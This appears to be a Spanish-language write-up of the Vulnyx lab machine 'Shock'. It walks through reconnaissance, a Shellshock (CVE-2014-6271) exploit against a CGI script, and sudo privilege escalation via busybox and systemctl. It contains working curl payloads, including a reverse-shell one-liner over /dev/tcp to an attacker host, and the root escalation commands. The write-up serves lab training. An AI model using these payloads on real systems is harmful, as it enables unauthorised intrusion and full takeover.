










# Shock (Vulnyx)

**Plataforma:** Vulnyx 

**IP objetivo:** 192.168.1.81 

**Dificultad:** Easy 

**Vector de ataque:** Shellshock (CVE-2014-6271) → Privesc vía sudo (busybox, systemctl)

## Resumen

Explotación de un script CGI vulnerable a Shellshock para obtener ejecución remota de comandos como `www-data`. Escalada de privilegios en dos saltos: `www-data` → `will` mediante `sudo` sobre `busybox`, y `will` → `root` mediante `sudo` sobre `systemctl` (GTFOBins).

## Reconocimiento

### Descubrimiento de hosts

```bash
arp-scan -l --resolve
```

Objetivo: `192.168.1.81`

### Escaneo de puertos

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 192.168.1.81
```



Puertos abiertos:

|Puerto|Servicio|Detalle|
|---|---|---|
|22|SSH|OpenSSH 7.9p1 Debian-10+deb10u2|
|80|HTTP|—|

### Enumeración web

Acceso vía navegador a `http://192.168.1.81`, sin contenido relevante a simple vista.



Fuzzing con Dirb sobre la raíz:

```bash
dirb http://192.168.1.81
```



Resultado: directorio `/cgi-bin`.

Fuzzing sobre `/cgi-bin` sin extensión no arroja resultados (Dirb ni Gobuster con diccionario `directory-list-lowercase-2.3-big.txt`).

Búsqueda de diccionarios orientados a `.cgi`:

```bash
grep -rl "\.cgi" /usr/share/seclists/ 2>/dev/null
```



Fuzzing de `/cgi-bin` con extensión `.cgi` (`raft-medium-files-lowercase.txt`, `common.txt`) tampoco produce resultados válidos.

Ampliación de extensiones probadas en el fuzzing:

```bash
gobuster dir -u http://192.168.1.81/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl
```



Resultado: `shell.sh` en `/cgi-bin/`, extensión `.sh` — candidato a script CGI ejecutado por el servidor web.

### Servicio SSH

```bash
ssh-audit 192.168.1.81
```

Confirma OpenSSH 7.9p1 sobre Debian 10. Algoritmos con advertencias de seguridad (SHA-1, curvas NIST, Terrapin) pero sin vector de explotación directo. Se descarta esta vía.

Intentos de fuerza bruta sobre SSH (`hydra` con `names.txt` / `rockyou.txt`) sin éxito — se descarta como vector de entrada.

## Vulnerabilidades

### Shellshock (CVE-2014-6271)

El script `/cgi-bin/shell.sh` se ejecuta como CGI a través de `bash`. Esto lo hace vulnerable a Shellshock: `bash` interpreta funciones definidas en variables de entorno (como `User-Agent`, que el servidor CGI traduce a variable de entorno) y ejecuta cualquier comando que las siga.

## Explotación

### Prueba

```bash
curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" 'http://192.168.1.81/cgi-bin/shell.sh'
```



Confirmado: ejecución de comandos como `www-data`.

### Shell reversa

Listener:

```bash
nc -lvnp 443
```

Inyección en la cabecera `User-Agent`:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.65/443 0>&1'" 'http://192.168.1.81/cgi-bin/shell.sh'
```



Acceso obtenido como `www-data`.

### Tratamiento de la TTY

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios

### www-data → will

```bash
sudo -l
```



`www-data` puede ejecutar `busybox` como usuario `will` sin contraseña:

```bash
sudo -u will /usr/bin/busybox sh
```



### will → root

```bash
sudo -l
```



`will` puede ejecutar `systemctl` como root sin contraseña. Vector documentado en GTFOBins para `systemctl` vía `sudo`: `systemctl edit` invoca el editor definido en `$SYSTEMD_EDITOR`; si ese "editor" es un binario controlado por el atacante, se ejecuta con los privilegios de la invocación (root).

```bash
echo /bin/sh > /tmp/privesc.service
chmod +x /tmp/privesc.service
sudo SYSTEMD_EDITOR=/tmp/privesc.service systemctl edit basic.target
```

Shell obtenida como `root`.

## Conclusión

Cadena completa: CGI mal configurado y vulnerable a Shellshock para RCE inicial, seguido de dos escaladas de privilegios encadenadas por configuraciones de `sudoers` demasiado permisivas (`busybox` y `systemctl` sin restricción de argumentos). Ninguno de los dos binarios debería estar habilitado sin restricciones en `sudoers`, ya que ambos aparecen en GTFOBins como vectores de escape/ejecución arbitraria.

### Puntos de aprendizaje

- Cuando el fuzzing de directorios no da resultado, probar variando extensiones de archivo (`.sh`, `.pl`, `.cgi`) antes de descartar una ruta.
- Shellshock sigue siendo explotable en sistemas desactualizados vía CGI; probar siempre en cabeceras HTTP controlables por el cliente (`User-Agent`, `Referer`, `Cookie`).
- Revisar `sudo -l` inmediatamente tras cada salto de usuario, no solo al obtener el shell inicial.
- GTFOBins es la referencia obligatoria antes de intentar una escalada manual: `systemctl edit` con `$SYSTEMD_EDITOR` controlado es un vector documentado, no una técnica ad-hoc.
